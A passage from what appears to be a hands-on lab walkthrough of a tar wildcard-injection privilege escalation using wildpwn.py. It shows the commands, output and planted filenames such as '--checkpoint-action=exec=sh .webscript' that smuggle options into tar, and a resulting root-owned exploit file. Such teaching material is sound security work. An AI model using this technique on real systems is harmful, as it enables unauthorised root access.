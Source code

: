     - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will show:

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```

    -  Run `ls -lat` to see our new payload files:

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```

5. Now we wait. 

    - After waiting a minute or two, re-run the `ls` command but with the proper options to see the new hidden subdirectory. 
    
    - Navigate into that subdirectory and list its hidden file. This is the one you'll want to run to execute the `wildcard attack` exploit.

   After waiting 1-2 minutes, we can re-run `ls -lat` to see that the contents of the directory have changed!

    - Run `ls -lat` to see:

      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```

    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.

      - Run `cd .cache` to navigate _into_ the `.cache` directory

      - Run `ls -lat` to show the hidden `.cachefile` exploit file. 
        